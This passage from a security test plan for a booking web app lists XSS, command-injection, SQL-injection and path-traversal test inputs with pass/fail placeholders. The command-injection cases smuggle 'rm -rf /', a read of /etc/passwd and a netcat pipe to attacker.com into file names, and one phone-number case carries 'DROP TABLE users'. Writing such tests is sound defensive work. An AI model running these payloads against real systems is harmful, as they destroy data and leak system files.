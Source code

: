 #### 3.2 Cross-Site Scripting (XSS) Tests

**Test Case**: Stored XSS in Service Descriptions
```
Malicious Payloads:
- <script>alert('XSS')</script>
- <img src="x" onerror="alert('XSS')">
- javascript:alert('XSS')

Test Fields:
- Service name
- Service description  
- Booking notes

Expected: All scripts sanitized or escaped
Status: [PASS/FAIL]
```

**Test Case**: Reflected XSS in Search Parameters
```
Malicious URLs:
- /api/services/search?q=<script>alert('XSS')</script>
- /api/services/search?category=<img src=x onerror=alert(1)>

Expected: User input properly escaped in responses
Status: [PASS/FAIL]
```

#### 3.3 Command Injection Tests

**Test Case**: Command Injection in File Operations
```
Malicious Filenames:
- file.jpg; rm -rf /
- file.jpg && cat /etc/passwd
- file.jpg | nc attacker.com 4444

Test: Profile picture upload, service image upload
Expected: Command injection attempts blocked
Status: [PASS/FAIL]
```

### 4. Data Validation Security

#### 4.1 Argentina-Specific Validation Bypass

**Test Case**: Phone Number Validation Bypass
```
Malicious Phone Numbers:
- +5491123456789'; DROP TABLE users; --
- <script>alert('XSS')</script>
- ../../../../etc/passwd

Expected: Argentina phone validation prevents malicious input
Status: [PASS/FAIL]
```
